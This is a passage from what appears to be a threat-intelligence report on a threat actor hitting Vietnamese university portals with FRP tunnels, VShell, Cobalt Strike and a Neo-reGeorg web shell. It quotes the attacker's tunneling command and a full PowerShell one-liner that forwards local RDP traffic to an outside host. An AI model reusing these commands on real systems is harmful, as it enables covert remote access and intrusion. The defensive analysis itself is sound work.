 * Viewing the threat actors IP address on Censys or Shodan, we can see the hostnames of victim machines exposed on ports like 6008 or 6002, which is a result of the FRP setup. 

```bash
xlfrc64.exe -k 123 -i 148.66.16[.]226 -p 47009 -s admin123q
xlfrc64.txt -k 123 -i 148.66.16[.]226 -p 47012 -s admin123q
```

* Alternative tunneling client (similar to `frpc`) connecting to `148.66.16[.]226` on ports 47009/47012.
  * We can find a reference to this tool being used for domain-fronting on this [Chinese Security forum](https://cn-sec.com/archives/3430285.html).

```bash
powershell -c "$l='0.0.0.0';$p=3389;$r='103.215.77[.]214:6665';$s=New-Object Net.Sockets.TcpListener($l,$p);$s.Start();while($c=$s.AcceptTcpClient()){$s=$c.GetStream();$b=New-Object Byte[] 1024;$d=New-Object Net.Sockets.TcpClient;$d.Connect($r);$u=$d.GetStream();while($i=$s.Read($b,0,$b.Length)){$u.Write($b,0,$i);$u.Flush()};$u.Close();$s.Close()}"
```

* A custom PowerShell TCP forwarder:
  * Listens on 0.0.0.0:3389 locally
  * Forwards traffic to 103.215.77[.]214:6665 (proxying RDP).

`E:\shell\Neo-reGeorg-master\Neo-reGeorg-master\neoreg_servers\tunnel.ashx` - [Open-source Chinese web-shell & tunnel](https://github.com/L-codes/Neo-reGeorg/blob/master/templates/tunnel.ashx)

# VShell

During our investigation, we identified the threat actor leveraging multiple methods for persistent access to target environments. This often included 2 active C2 frameworks (VShell & CS) on a host,  a persistent RDP tunnel, and a webshell. 

Aside from using Cobalt Strike for C2, the adversary has heavily leveraged `VShell` for persistent remote access to compromised Vietnamese university web portals. 

From the file `/vshell/v_windows_amd64/db/data.db` we were able to uncover the full list of the VShell victims. Unlike the CobaltStrike C2, the VShell beacons were reaching straight out to the C2 server, and we were able to recover real victim IP addresses. Additionally, we can see the threat actor had “named” the various victims by their domain name. This made attributing victims incredibly easily. 

## Emulating the Adversaries VShell Server

Thankfully for us, using the same emulation method used for Cobalt Strike, we were able to access the VShell dashboard for further intelligence:

[![2](/assets/images/china/vshell.png)](/assets/images/china/vshell.png){: .full}

